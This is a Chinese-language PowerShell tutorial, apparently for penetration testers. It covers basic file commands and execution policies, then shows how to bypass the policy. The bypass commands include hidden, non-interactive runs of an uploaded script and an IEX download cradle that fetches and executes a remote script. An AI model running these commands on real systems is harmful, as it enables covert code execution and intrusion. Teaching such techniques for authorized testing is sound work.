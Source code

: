 # PowerShell基本命令和绕过权限执行

## 基本命令 

以文件操作为例

## 新建目录

```
New-Item whitecellclub-ItemType Directory
```

## 新建文件

```
New-Item light.txt-ItemType File
```

## 删除目录

```
Remove-Item whitecellclub
```

## 显示文件内容

```
Get-Content test.txt
```

## 设置文本内容

```
Set-Content test.txt-Value"Hello World!"
```

## 追加内容

```
Add-Content light.txt-Value"i love you"
```

## 清除内容

```
Clear-Content test.txt
```

## 执行策略

获取执行策略

```
Get-ExecutionPolicy
```

策略分以下几种：

- Restricted: 脚本不能执行(默认)
- RemoteSigned: 本地创建的脚本可以运行，但从网上下载的脚本不能运行(拥有数字证书签名的除外)。
- AllSigned: 仅当脚本由受信任的发布者签名时才能运行。
- Unrestricted: 允许所有的script运行

可以使用如下命令格式设置PowerShell的执行策略

```
Set-ExecutionPolicy <Policy name>
```

## 绕过策略来执行脚本

如果要运行PowerShell脚本程序，必须用管理员权限将Restricted策略改成Unrestricted,所以，在渗透时，需要采用一些方法绕过策略来执行脚本

## 绕过本地权限执行

上传xxx.ps1到目标服务器，在CMD环境下，在目标服务器本地执行该脚本

```
PowerShell.exe-ExecutionPolicy Bypass-File xxx.ps1
```

## 本地隐藏绕过权限执行脚本

```
PowerShell.exe-ExecutionPolicy Bypass-WindowStyle Hidden-NoLogo-NonInteractive-NoProfile-File xxx.ps1
```

## 用IEX下载远程PS1脚本绕过权限执行

```
PowerShell.exe-ExecutionPolicy Bypass-WindowStyle Hidden-NoProfile-Nonl IEX (New-ObjectNet.WebClient).DownloadString("xxx.ps1");[Parameters]
```

以上命令的参数说明：

- ExecutionPolicy Bypass : 绕过执行安全策略，这个参数非常重要，在默认情况下，PowerShell的安全策略规定了PowerShell不允许运行命令和文件。通过设置这个参数，可以绕过任意一个安全规则。在渗透测试中，基本每一次运行PowerShell脚本时都要使用这个参数。
- WindowStyle Hidden ： 隐藏窗口
- NoLogo : 启动不显示版权标志的PowerShell
- NonInteractive (-Nonl) : 非交互模式，PowerShell不为用户提供交互的提示
- NoProfile (-Nop): PowerShell控制台不加载当前用户的配置文件
- Noexit : 执行后不退出Shell。这在使用键盘记录等脚本时非常重要。
- PowerShell脚本在默认情况下无法直接运行，这时就可以使用上述三种方法绕过安全策略，运行PowerShell脚本。